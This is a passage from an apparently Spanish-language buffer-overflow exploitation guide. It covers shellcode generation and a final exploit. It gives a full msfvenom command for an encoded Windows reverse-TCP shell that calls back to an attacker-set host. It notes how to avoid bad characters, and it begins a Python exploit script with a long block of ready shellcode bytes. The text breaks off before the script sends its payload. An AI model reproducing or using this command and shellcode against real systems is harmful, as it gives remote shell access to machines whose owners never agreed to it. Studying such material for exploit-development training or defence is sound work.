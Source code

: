 ## Generación de shellcode

Aquí se generará el shellcode a utilizar después de la sustitución del valor que se asigne a la `EIP`.

**Comando de ejemplo**

`msfvenom -a x86 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai LHOST=<ip> LPORT=<puerto> -b '\x00' EXITFUNC=thread -i 3 -f python > scode.txt`

Tener en consideración:
- Sistema operativo.
- Arquitectura.
- Payload.
- Formato (python, c, exe, etc).
- Variables de escucha y/o comando a ejecutar.
- Encoding (extra: `-i 3` para número de iteraciones para encodear).
- BadChars.
- Función de salida (para evitar que el proceso termine usar `seh` o `thread`).

***Si se da el caso que los badchars sean bastantes tal que la generación del shellcode no se realice satisfactoriamente, considerar quitar el encoder `x86/shikata_ga_nai` para que automáticamente se utilicé el encoder que cumpla con los requisitos (colección de badchars a evitar).***

## Generación de exploit

### Ejemplo de exploit final

```python
from struct import pack
import socket, sys

if len(sys.argv) < 2:
    print "\n [!] Uso: python " + sys.argv[0] + "<ip-address>" + "<remote-port> \n"
    sys.exit(0)

ip_address = sys.argv[1]
rport = int(sys.argv[2])
shellcode =  b""
shellcode += b"\xb8\x36\xda\x75\x0f\xda\xd5\xd9\x74\x24\xf4\x5b\x2b"
shellcode += b"\xc9\xb1\x5f\x83\xc3\x04\x31\x43\x10\x03\x43\x10\xd4"
shellcode += b"\x2f\xce\x68\xaf\x10\x8c\xac\x01\x49\x9b\x76\x69\x30"
shellcode += b"\x55\xbe\x20\x9d\xa4\x1a\x57\x9d\x2d\x66\x54\xfb\xa0"
shellcode += b"\x75\xc8\xf6\x32\x68\x08\x59\x9b\x32\x1d\xb8\x35\x8a"
shellcode += b"\x2e\x1c\xec\x8c\x49\xea\xa6\xae\xc5\xfb\xef\x11\xbd"
shellcode += b"\xa9\x1f\x9b\xf3\x51\xc8\x4a\x27\x35\xa2\xd1\x60\x03"
shellcode += b"\x55\x72\xf5\xcc\x0b\xd2\x2a\xda\x41\x4d\x5f\x4f\xb4"
shellcode += b"\x2f\xbb\xc6\x88\x45\x5f\x3e\x11\x08\x86\x09\x5d\xe7"
shellcode += b"\xf8\x11\x49\x5c\x12\xdc\x8e\x66\xa0\x1e\x1c\x10\x0a"
shellcode += b"\xf8\xa7\xac\x6b\x8d\xd4\x2a\xaa\xe6\x5e\x9d\xbe\x04"
shellcode += b"\x42\x52\xe0\x71\x86\xc5\xa6\xa2\xff\xdf\xcb\x75\x28"
shellcode += b"\x2f\x5b\x05\x57\x39\x45\xd2\x7e\x05\xd6\x91\xfd\x46"
shellcode += b"\x2c\x31\x66\xea\xbe\x3c\xc8\x10\x96\xf6\xcc\x31\xbc"
shellcode += b"\x56\x43\x24\x1f\x86\xed\xf2\x59\xa2\x38\x9c\x4f\xa1"
shellcode += b"\xc6\x58\x71\xb7\x81\x9d\xe3\x25\xb7\xc7\xf4\x5c\xa3"
shellcode += b"\x01\xd4\x5e\xf2\x1d\x92\x57\x08\x65\xd9\x62\xdf\xb4"
shellcode += b"\xdf\xaa\xb8\x6a\x61\x82\x87\xfa\x27\x0c\xe9\x49\x46"
shellcode += b"\xea\x50\x51\xb6\x6b\xc9\xbc\xe4\x95\xff\xf8\x36\x94"
shellcode += b"\x3b\xbd\x24\xd9\x9c\xb5\x1e\x77\xcb\x31\x84\x2a\xe3"
shellcode += b"\xca\xac\xd7\x8c\x12\xed\xa0\x53\xfa\xbc\x94\xf3\x9b"
shellcode += b"\xe5\x8a\xac\xf3\x48\x1a\x39\x2e\x63\x5a\x68\xe9\x85"
shellcode += b"\x93\xde\x3a\x22\x77\x2a\xac\xa1\xfa\x96\x7f\x9f\x95"
shellcode += b"\x6f\xa3\xe4\x13\x41\x9a\xe8\xf6\x97\x6b\x2d\x31\x68"
shellcode += b"\x9c\xb1\x2f\xab\xa3\xf5\x56\xe9\xf5\xa3\x21\xe9\x9c"
```